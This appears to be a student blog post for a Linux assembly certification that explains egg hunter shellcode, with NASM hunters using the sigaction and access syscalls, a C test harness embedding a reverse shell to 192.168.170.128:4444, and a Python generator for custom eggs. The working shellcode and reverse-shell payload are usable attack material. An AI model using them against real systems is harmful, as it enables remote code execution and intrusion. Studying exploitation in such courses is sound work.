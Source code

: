 ```yaml
---
title: SLAE Exercise 3
tags: SLAE
key: 20190611
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html>

Student ID: SLAE - 1470

All code can be found in: <https://github.com/xMilkPowderx/SLAE-Code>

### Assignment Three:

1. Study about the egg hunter shellcode
2. Create a working demo of the egg hunter
3. Should be configurable for different payload

What exactly is an egg hunter? When buffer overflow happens, the ESP may not always have enough amount of memory space to fit our shellcode and let use to use JMP ESP to execute it. If this happens, an egg hunter will be handy. We can just include our shellcode in some where else of the memory. Then, the egg hunter code iterate through the memory address and try to locate our egg, which is appended in front of our shellcode. If an egg is found, it will jmp to the egg and execute the rest of the shellcode. 

To make it simple, I try to write down the logic in python.
```python
count = 0
egg = 0x746f6f72 #root in reverse order

for address in range(0xffffffff):
    if address == 0x726f6f74:
        count +=1
    if count == 2:
        jmp_to_shellcode()
    address += 0x1
```

According to <http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf> there are actually a few implementation of egg hunters. Here lets try to understand them one by one.
While the egg hunter travels along the memory address it may seems that all it need is to examine each address one by one. However, the truth is that there are invalid memory address which will cause your egg hunter get a segmentation fault or other runtime error in the program. So, we will need some method to test the address we are going to compare. If it is valid, we will proceed, it not, we will ignore it.

In general, there are system call that can be use to valid an address, sigaction(0x43) and access(0x21).
Below is a proof of concept of egghunter using sigaction

```
global _start

section .text

_start:

setup:
	or cx, 0xfff		;Increase by page_size
next_address:
	inc ecx
	push byte 0x43		;Systemcall for sigation
	pop eax
	int 0x80
	cmp al, 0xf2		;f2 = invalid address
	jz setup
	
	mov eax, 0x726F6F74	;EGG = root = 726F6F74
	mov edi, ecx		;move address to edi to examine
	scasd			;check eax == edi, edi = edi+4
	jnz next_address
	scasd			;check eax == edi, edi = edi+4
	jnz next_address
	jmp edi			;execute shellcode
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/sigaction-egghunter.nasm>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-1.JPG"/>

ECX is being set to end with fff every time we cannot validate the address (0xfff > 0x1000 > 0x1fff > 0x2000). This implementation is to increase ECX by page size. If the address inside a page size is invalid, the rest should be invalid too. As such, we can increase the address by page size and save sometime while searching.
Then, EAX is set to 0x43 so that we can call sigaction to help us validate the address.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-2.JPG"/>

In case the address is invalid, EAX will be set to 0xfffffff2 and by checking is al equals to f2 we know that is the address valid or not. If not, we will jump back to setup and start again.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-3.JPG"/>

Once a valid address is found, we will start the second part of our shellcode. We will first mov the value of our egg, "root" to eax. Then, the current address to be test will be moved from ecx to edi for testing. We will then use scasd to compare both EAX and value inside the address stored in EDI. 

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-4.JPG"/>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-5.JPG"/>

If two double word are not the same, we will increase ecx and test again. If yes, scasd will check the next double word to verify that this is indeed our egg. Notice that scasd, by default, will increase the address in EDI by 4 after it checked the string. So that is no need for us to increase the address value of EDI and also answered why we can just jmp EDI when the egg is found.

```
global _start

section .text

_start:
	xor edx,edx
setup:
	or dx,0xfff
next_address:
	inc edx
	lea ebx,[edx+0x4]	#Actually an optimization
	push byte +0x21
	pop eax
	int 0x80
	cmp al, 0xf2
	jz setup
	mov eax, 0x746F6F72
	mov edi, edx
	scasd
	jnz next_address
	scasd
	jnz next_address
	jmp edi	
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/access-re-egghunter.nasm>

The implementation of the access method is mostly the same as the sigaction while the access systemcall need more arguments. EBX will be needed to store the address of the string being validate. However, from the code, it seems that EBX is storing the value of EDX + 4. The reason of this is same as the page size implementation. If the value of ebx + 4 is invalid, there is no way that edx will be valid. As such according to the paper, an optimization to the shellcode.
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-6.JPG"/>

To really test the egg hunter, I will use our reverse shell shellcode for testing.
The following sample will be using the sigaction poc
```c
#include<stdio.h>
#include<string.h>

unsigned char egg_hunter[] = "\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x74\x6f\x6f\x72\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

unsigned char egg[] = \         //reverse shell ip=192.168.170.128 port = 4444
"\x74\x6F\x6F\x72" //EGG, root
"\x74\x6F\x6F\x72"
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc6\x31\xdb\xb3\x03\xb2\x80\xc1\xe2\x08\xb2\xaa\xc1\xe2\x08\xb2\xa8\xc1\xe2\x08\xb2\xc0\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\x6a\x66\x58\xcd\x80\x87\xf3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void main(){
 printf("Length of Egg Hunter:  %d\n", strlen(egg_hunter));
 printf("Length of Shellcode:  %d\n", strlen(egg));
 int (*ret)() = (int(*)())egg_hunter;
 ret();
}
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/testEgg.c>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-7.JPG"/>

At last, below is python script to generate an Egg hunter generator with your custom egg.
```python
import binascii
import sys
import os
import getopt

def usage():
	print('getEgghunter.py -e egg | -h help')	

def main(argv):
	port = 0
	ip = ''
	hexPort = ''
	hexIP = ''
	if(len(sys.argv) < 2):
		usage()
		sys.exit()
	try:
		opts,args = getopt.getopt(sys.argv[1:], "he:", ["help", "egg="])
	except getopt.GetoptError:
		usage()
		sys.exit(2)
	for opt, arg in opts:
		if opt in ("-h", "--help"):
			usage()
			sys.exit()
		elif opt in ("-e", "--egg"):
			egg = arg
			print('Egg: ' + egg)
			if len(egg) != 4:
				print('Invalid Egg, length must be 4 characters')
				sys.exit(2)
	hexEgg = ''
	for char in egg:
		hexEgg = ('\\x' + bytes.decode(binascii.hexlify(str.encode(char)))) + hexEgg

	Shellcode = "\\x66\\x81\\xc9\\xff\\x0f\\x41\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2\\x74\\xf1\\xb8"
	Shellcode +=hexEgg 
	Shellcode +="\\x89\\xcf\\xaf\\x75\\xec\\xaf\\x75\\xe9\\xff\\xe7"
	
	print('Egghunter: ' + Shellcode)
	print('Paste this in front of your shellcode')
	print('"' + hexEgg + '"')
	print('"' + hexEgg + '"')

if __name__ == '__main__':
	main(sys.argv[1:])
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/genEgghunter.py>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-8.JPG"/>